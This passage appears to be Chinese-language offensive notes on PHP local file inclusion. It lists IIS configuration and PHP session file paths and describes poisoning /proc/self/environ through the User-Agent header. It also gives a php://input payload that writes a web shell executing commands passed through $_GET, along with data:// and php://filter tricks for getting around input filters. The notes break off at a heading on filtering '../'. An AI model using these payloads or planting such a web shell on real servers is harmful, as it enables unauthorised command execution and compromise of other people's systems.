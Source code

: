 ```
IIS6.0+win2003 配置文件 C:/Windows/system32/inetsrv/metabase.xml
```

```
IIS7.0+WIN 配置文件 C:\Windows\System32\inetsrv\config\applicationHost.config
```

### session常见存储路径

php的session文件的保存路径可以在phpinfo的**session.save_path**看到，  
session文件格式：` sess_[phpsessid] `，phpsessid在发送的请求的 cookie 字段中可以看到

```
/var/lib/php/sess_PHPSESSID  
/var/lib/php/sess_PHPSESSID  
/tmp/sess_PHPSESSID  
/tmp/sessions/sess_PHPSESSID
```

### 包含系统文件

包含 /pros/self/environ

条件
- php以cgi方式运行，这样environ才会保持UA头。
- environ文件存储位置已知，且environ文件可读。
```
proc/self/environ中会保存user-agent头，如果在user-agent中插入php代码，则php代码会被写入到environ中，之后再包含它，即可。
```


### 文件写入：

```
php://filter/write=convert.base64-encode/resource=phpinfo.php

php://input POST:<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```


### 绕过

##### 过滤read、resource
```
?f=php://filter/convert.base64-encode/resource=login.php（过滤了操作名read）  
绕过方式：  
?f=data:text/plain,<?php phpinfo()?>  
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
```

```
?f=php://filter/read=convert.base64-encode/resource=1.jpg/resource=./show.php
（正则 /resource=*.jpg/i）
```


##### 过滤 ../

